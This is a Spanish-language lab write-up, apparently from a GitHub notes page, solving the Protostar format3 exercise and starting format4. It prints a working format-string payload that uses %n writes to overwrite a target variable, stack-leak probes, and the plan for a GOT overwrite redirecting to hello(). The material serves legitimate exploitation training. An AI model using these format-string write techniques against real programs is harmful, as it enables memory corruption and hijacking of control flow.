 ```console
target is 02025544 :(
(gdb) p 0x01 - 0x02
$1 = -1
(gdb) p 0x101 - 0x02 -> Igual que antes, bit a la izquierda
$5 = 255
[user@protostar]-[/opt/protostar/bin]:$ python -c 'print("\xf4\x96\x04\x08\xf5\x96\x04\x08\xf6\x96\x04\x08\xf7\x96\x04\x08" + "%52x%12$n%17x%13$n%173x%14$n%255x%15$n")' | ./format3 | tail -n1
you have modified the target :)
```

Articulo que me ha ayudado y del que he aprendido [aqui](https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83)

---------------------------------------------------------------------------
# Sobreescribir la GOT para saltar a una funcion que queramos
> [format4](https://exploit.education/protostar/format-four/)

Este binario al ejecutarlo se parece mucho a format2, pero no nos sale nada mas. Tambien, hay la vuln de format string.

```console
[user@protostar]-[/opt/protostar/bin]:$ user@protostar:/opt/protostar/bin$ ./format4 AAA
AAAA
AAAA
user@protostar:/opt/protostar/bin$ ./format2
AAAA
AAAA
target is 0 :(
user@protostar:/opt/protostar/bin$ ./format4
AAAA
AAAA
user@protostar:/opt/protostar/bin$ python -c 'print("%8x."*5)' | ./format4
200.b7fd8420.bffff524.2e783825.2e783825.
```

El buffer son 512 bytes, y este ejercicio esta pensado para la vuln de "cadenas de formateo" nada de buffer overflows, Es por eso que no salta ningun segfault si le metemos mas bytes de la cuenta por que los descarta.

```console
python -c 'print("A" * 560)' | ./format4; echo
```

Solo que hay una función llamada "hello"

```console
[user@protostar]-[/opt/protostar/bin]:$ objdump -d ./format4
080484b4 <hello>:
80484b4:	55
```
Abrimos el programa con gdb y le echamos un vistazo.
Adelanto que aquí entra en juego el concepto de la [GOT](https://github.com/CUCUxii/CUCUxii.github.io/blob/main/binarios/Estructura%20de%20un%20binario.md) Tenemos que poner la direccion de la función "hello()" en la tabla GOT (por tanto el programa vera que hay algo ahi y no llamará al loader, este no buscará la direccion buena de exit())
